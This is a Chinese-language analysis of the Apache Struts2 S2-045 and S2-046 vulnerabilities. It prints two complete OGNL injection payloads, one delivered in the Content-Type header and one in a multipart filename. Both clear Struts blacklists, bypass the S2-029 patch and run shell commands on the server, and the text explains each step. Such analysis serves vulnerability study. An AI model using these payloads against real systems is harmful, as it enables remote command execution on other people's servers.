 ## S2-045

```java
%{(#fuck='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

> 可以看到payload中连接每个表达式的不再是','而变成了'.',是因为S2-029的补丁把ATSSequence树给禁了,而用','连接生成的AST树都是ATSSequence树,之所以使用'.'就是为了绕过S2-029的补丁.

> Struts2 2.3.30(2.5.2)之后的版本,之前payload使用的_memberAccess和DefaultMemberAccess都进入到黑名单中了,覆盖的方法就不行了.S2-045的payload提供了一种新的方法.通过container获取了OgnlUtil实例,再使用clear方法清空excludedClasses、excludedPackageNames,然后再调用setMemberAccess方法设置默认的memberAccess来覆盖_memberAccess.

> payload首先定义#fuck='multipart/form-data'是为了满足漏洞的触发条件,详情可见S2-045的漏洞分析文章.然后调用ognl.OgnlContext的DEFAULT_MEMBER_ACCESS来获取DefaultMemberAccess实例.然后利用一个三元表达式,可看到#_memberAccess初始为空所以执行:后面的内容.:后面的内容首先获取一个container的实例,然后调用这个实例的getExcludedPackageNames和getExcludedClasses的clear方法来清空黑名单,然后再设置setMemberAccess为DefaultMemberAccess实例.之后定义要执行的命令字符串,然后调用java.lang.System的getProperty方来判断操作系统类型,如果是windows操作系统,调用cmd.exe /c 来执行命令,如果不是windows系统,则使用/bin/bash -c 执行命令,接下里的输出执行命令结果的流程就和S2-001的输出命令执行结果的流程类似了.以这个#cmds参数构造了一个ProcessBuilder对象,然后设置ProcessBuilder对象的redirectErrorStream属性为true,然后调用start方法新建一个进程执行命令.之后在获取一个org.apache.struts2.ServletActionContext类的getResponse对象来获取输出流,用于处理response.然后以这个getResponse对象和#process为参数调用org.apache.commons.io.IOUtils的copy方法把执行命令的结果发送到缓冲区,最后输出缓冲区的内容.

## S2-046

```java
-----------------------------735323031399963166993862150
Content-Disposition: form-data; name="foo"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}b"
Content-Type: text/plain

x
-----------------------------735323031399963166993862150--
```

> 这个漏洞和S2-045的漏洞原理是一样的,只不过是触发位置不一样,S2-045触发点是Content-Type的值,S2-046触发点在Content-Disposition中的文件名值,payload的原理也是一样的.

> 可以看到payload中连接每个表达式的不再是','而变成了'.',是因为S2-029的补丁把ATSSequence树给禁了,而用','连接生成的AST树都是ATSSequence树,之所以使用'.'就是为了绕过S2-029的补丁.
